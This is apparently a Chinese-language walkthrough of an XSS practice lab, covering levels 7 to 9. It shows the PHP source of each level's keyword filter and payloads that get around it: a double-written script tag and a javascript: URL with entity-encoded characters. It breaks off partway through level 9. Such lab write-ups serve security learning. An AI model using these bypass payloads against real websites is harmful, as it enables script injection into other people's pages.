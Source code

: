 - 大写转为小写，script等字符转化为空，但是双写就可以绕过
- payload

```
">&#60scrscriptipt>alert(1)&#60/scrscriptipt>//
```
# level-8
- 源码

```
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '
&#60form action=level8.php method=GET>
&#60input name=keyword  value="'.htmlspecialchars($str).'">
&#60input type=submit name=submit value=添加友情链接 />
</form>
&#60?php
 echo '&#60BR>&#60a href="'.$str7.'">友情链接</a>';
?>
```
- 这道题有点难，这时候可以转化编码
- payload如下：

```
s转化位unicode编码：
java‘&’‘#’115;cript:alert()
c,r,i,p,t都可转化成base64编码
```
# level-9 
- 源码

```
if(false===strpos($str7,'http://'))
{
  echo '&#60BR>&#60a href="您的链接不合法？有没有！">友情链接&#60/a>';
        }
else
{
  echo '&#60BR>&#60a href="'.$str7.'">友情链接</a>';
}

```
- 可以发现，和level-8的区别是友情链接多了一个判断
- strpos
